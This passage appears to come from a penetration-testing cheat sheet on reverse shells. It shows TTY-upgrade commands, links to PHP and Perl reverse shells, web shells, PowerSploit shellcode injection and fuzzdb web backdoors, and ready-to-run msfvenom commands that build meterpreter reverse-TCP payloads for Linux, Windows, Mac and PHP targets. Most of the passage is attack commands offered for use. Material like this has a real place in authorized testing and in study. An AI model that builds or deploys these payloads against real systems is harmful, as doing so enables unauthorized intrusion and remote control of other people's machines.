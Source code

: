         CTRL+Z         #send current shell to background
        stty raw -echo #tell your terminal to pass keyboard shortcuts etc.
        fg             #bring shell back to the foreground

*   Pen test monkey PHP reverse shell  
    [http://pentestmonkey.net/tools/web-shells/php-reverse-shel](http://web.archive.org/web/20171113221652/http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

*   php-findsock-shell - turns PHP port 80 into an interactive shell  
    [http://pentestmonkey.net/tools/web-shells/php-findsock-shell](http://web.archive.org/web/20171113221652/http://pentestmonkey.net/tools/web-shells/php-findsock-shell)

*   Perl Reverse Shell  
    [http://pentestmonkey.net/tools/web-shells/perl-reverse-shell](http://web.archive.org/web/20171113221652/http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

*   PHP powered web browser Shell b374k with file upload etc.  
    [https://github.com/b374k/b374k](http://web.archive.org/web/20171113221652/https://github.com/b374k/b374k)

*   Windows reverse shell - PowerSploit’s Invoke-Shellcode script and inject a Meterpreter shell[https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1](http://web.archive.org/web/20171113221652/https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1)

*   Web Backdoors from Fuzzdb [https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors](http://web.archive.org/web/20171113221652/https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors)

*   Creating Meterpreter Shells with MSFVenom - [http://www.securityunlocked.com/2016/01/02/network-security-pentesting/most-useful-msfvenom-payloads/](http://web.archive.org/web/20171113221652/http://www.securityunlocked.com/2016/01/02/network-security-pentesting/most-useful-msfvenom-payloads/)

    _Linux_

    `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf`

    _Windows_

    `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe`

    _Mac_

    `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho`

    **Web Payloads**

    _PHP_

    `msfvenom -p php/reverse_php LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`

    OR

    `msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`
